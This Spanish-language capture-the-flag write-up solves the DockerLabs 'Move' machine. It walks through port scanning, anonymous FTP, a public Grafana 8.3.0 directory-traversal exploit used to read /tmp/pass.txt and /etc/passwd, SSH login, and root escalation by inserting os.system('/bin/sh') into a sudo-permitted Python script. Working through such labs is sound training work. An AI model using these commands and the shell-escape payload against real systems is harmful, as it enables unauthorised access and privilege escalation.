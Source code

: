 Lo primero que tenemos que hacer, es ir a la pagina de "dockerlabs.es" y bajarnos la maquina "Move".
Una vez hecho y COMO SIEMPRE, descomprimimos el archivo, e inicializamos la maquina con el comando:
```
sudo bash auto_deploy.sh move.tar
```
Lo primero de todo, tras desplegarse la maquina, es hacer un NMAP. No necesitamos hacer un ARP-SCAN (o NETDISCOVER), porque ya sabemos la IP de la maquina victima.
```
nmap -p- --open -sCV -sS --min-rate 5000 172.18.0.2 -n -Pn -vvv
```
Una vez terminado, vemos que tiene abiertos 4 puertos:
```
Discovered open port 21/tcp on 172.17.0.2
Discovered open port 22/tcp on 172.17.0.2
Discovered open port 80/tcp on 172.17.0.2
Discovered open port 3000/tcp on 172.17.0.2
```
Probamos primero el puerto 80, por lo que pondremos en el navegador la IP, pero nos aparece una simple pagina de Apache.
Hora del puerto 21 (FTP), como nos permite entrar como el usuario "anonymous", tal y como se ve aqui abajo, probaremos suerte:
```
21/tcp   open  ftp     syn-ack ttl 64 vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
```
Entramos y vemos que hay un directorio llamado "mantenimiento", dentro del cual, hay un archivo llamado "database.kdbx", el cual nos descargaremos:
```
ftp> ls
229 Entering Extended Passive Mode (|||33603|)
150 Here comes the directory listing.
drwxrwxrwx    1 0        0            4096 Mar 29 09:28 mantenimiento

ftp> cd mantenimiento
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||35291|)
150 Here comes the directory listing.
-rwxrwxrwx    1 0        0            2021 Mar 29 09:26 database.kdbx
226 Directory send OK.

ftp> get database.kdbx
local: database.kdbx remote: database.kdbx
229 Entering Extended Passive Mode (|||13729|)
150 Opening BINARY mode data connection for database.kdbx (2021 bytes).
100% |************************************************************|  2021       10.64 MiB/s    00:00 ETA
226 Transfer complete.
2021 bytes received in 00:00 (3.66 MiB/s)
```
Este archivo llamado "database.kdbx", es una BBDD con contraseña KeePass, por lo que vamos a intentar obtener obtener el hash con "keepass2john":
```
keepass2john database.kdbx > hashDatabase
```
Desgraciadamente, no es posible y nos tira un error, tal y como se ve a continuacion:
```
! database.kdbx : File version '40000' is currently not supported!
```
Viendo que es un camino sin salida, y como por el puerto 22 (SSH), no podemos entrar, vamos a ver si se puede hacer algo con el puerto 3000.
Para ello, en el navegador ponemos la IP de la maquina y el puerto:
```
172.17.0.2:3000
```
Y vemos que aparece un panel de Login con el software "Grafana". Tambien podemos ver que es la version 8.3.0, lo que nos podria servir para buscar vulnerabilidades con "searchsploit" mas tarde. Ahora, no obstante, haremos un poco de FUZZING WEB para ver que encontramos:
```
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x php,html
```
Una vez finalizado "gobuster", encontramos lo siguiente:
```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 10701]
/.html                (Status: 403) [Size: 275]
/maintenance.html     (Status: 200) [Size: 63]
/.html                (Status: 403) [Size: 275]
/.php                 (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 830572 / 830576 (100.00%)
===============================================================
Finished
===============================================================
```
Por lo que se ve, todas parecen "normales" excepto la de "maintenance.html", asi que probaremos a ponerla en el navegador y curiosamente vemos el mensaje:
```
 Website under maintenance, access is in /tmp/pass.txt
```
Bien, interesante... parece que la contraseña esta en el archivo "/tmp/pass.txt", pero como no podemos acceder aun, vamos a tirar de "searchsploit" tal y como se ve a continuacion:
```
searchsploit grafana 8.3.0

--------------
Exploit Title
--------------
Grafana 8.3.0 - Directory Traversal and Arbitrary File Read 

--------------
Path
--------------
multiple/webapps/50581.py

```
Tal y como se puede observar, existe para la version 8.3.0 un exploit en python llamado "50581.py", por lo que vamos a intentar localizarlo mediante el comando "locate", y recibimos el siguiente mensaje:
```
locate 50581.py

/usr/share/exploitdb/exploits/multiple/webapps/50581.py
```
Vale, es hora de hacerse una copia de este exploit a nuestro directorio de trabajo con el comando:
```
cp /usr/share/exploitdb/exploits/multiple/webapps/50581.py moveSploit.py
```
A continuacion,  ejecutamos el exploit:
```
python3 moveSploit.py -H https://172.17.0.2:3000

	-H = Hay que poner la ruta completa (incluido puerto) del host
```
Una vez hecho, nos sale un pequeño "prompt" que nos pedira un archivo a leer:
```
Read file > /tmp/pass.txt

t9sH76gpQ82UFeZ3GXZS
```
Como se observa, hemos utilizado el archivo "/tmp/pass.txt" porque es el que nos ponia en la pagina Web de "mantenimiento.html"
Vamos a probar ahora algo mas "dificil", que seria acceder al archivo "/etc/passwd" a ver si suena la flauta:
```
Read file > /etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:101::/nonexistent:/usr/sbin/nologin
ftp:x:101:104:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
sshd:x:102:65534::/run/sshd:/usr/sbin/nologin
grafana:x:103:105::/usr/share/grafana:/bin/false
freddy:x:1000:1000::/home/freddy:/bin/bash
```
Si nos fijamos justo en la ultima linea, hay un usuario llamado "freddy" por lo que vamos a probar con este usuario y la contraseña obtenida antes, a ver si podemos acceder al puerto SSH (22):
```
ssh freddy@172.17.0.2
```
Tras contestar "yes" a las fingerprints, y poner la contraseña, vemos que estamos dentro :) !!
```
┌──(freddy㉿d7db4525ef5a)-[~]
└─$ whoami                                                                  
freddy
```
Sin embargo, lo suyo es intentar la escalada de privilegios, por lo que probaremos con el tipico comando "sudo -l" y obtenemos:
```
sudo -l

Matching Defaults entries for freddy on d7db4525ef5a:
    env_reset, mail_badpass,    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User freddy may run the following commands on d7db4525ef5a:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/maintenance.py
```
Tal y como vemos, podriamos ejecutar el archivo "/opt/maintenance.py". Ademas, python tambien seria posible, asi que vamos a buscar en "gtfobins", o con "searchbins", como se haria la escalada con python:
```
searchbins -b python -f sudo 

[+] Binary: python

================================================================================
[*] Function: sudo -> [https://gtfobins.github.io/gtfobins/python/#sudo]

    | sudo python -c 'import os; os.system("/bin/sh")'
```
Viendo esto, simplemente tendriamos que cambiar el contenido del archivo "/opt/maintenance.py" y meter:
```
┌──(freddy㉿d7db4525ef5a)-[~]
└─$ nano /opt/maintenance.py

import os;
os.system("/bin/sh")
```
Ahora solo nos quedaria guardar y ejecutar:
```
┌──(freddy㉿d7db4525ef5a)-[~]
└─$ sudo /usr/bin/python3 /opt/maintenance.py

# whoami
root
#
```
Como se puede ver, ya somos "root". Es momento de obtener un prompt mas "bonito" con el comando "bash -p":
```
# bash -p

┌──(root㉿d7db4525ef5a)-[/home/freddy]
└─# whoami
root

┌──(root㉿d7db4525ef5a)-[/home/freddy]
└─# 
```
Finalmente, tenemos un prompt "root" normal. Y hecho esto ya estaria la maquina acabada.
